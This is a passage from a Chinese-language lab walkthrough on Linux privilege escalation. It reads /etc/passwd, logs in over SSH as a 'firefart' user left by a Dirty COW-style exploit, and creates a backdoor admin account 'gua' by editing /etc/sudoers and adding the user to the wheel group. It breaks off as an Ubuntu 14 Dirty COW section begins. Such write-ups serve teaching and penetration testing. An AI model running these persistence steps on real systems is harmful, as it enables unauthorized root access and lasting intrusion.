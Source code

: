 验证查看

```bash
cat /etc/passwd
```

​![image](assets/image-20241030141418-i1omfao.png)​

用firefart用户进行远程连接，并查看权限

```bash
ssh firefart@192.168.100.247
id
```

利用权限提升后创建后门用户

```bash
mv /tmp/passwd.bak /etc/passwd
```

wheel组为普通管理员组，默认不开启，利用wheel组来创建后门用户

修改/etc/sudoers配置文件，默认只读，需要修改权限

```bash
chmod u+w /etc/sudoers
```

去除配置文件的105行注释，使wheel组生效

```bash
vim /etc/sudoers
```

创建普通用户gua，并添加wheel组，使其拥有管理员权限

```bash
useadd gua
passwd gua
gpasswd -a gua wheel
```

低级用户切换到root权限

```bash
sudo su root
```

‍

#### ubuntu14脏牛提权

1.蚁剑连接shell，打开虚拟终端查看当前用户和内核版本信息
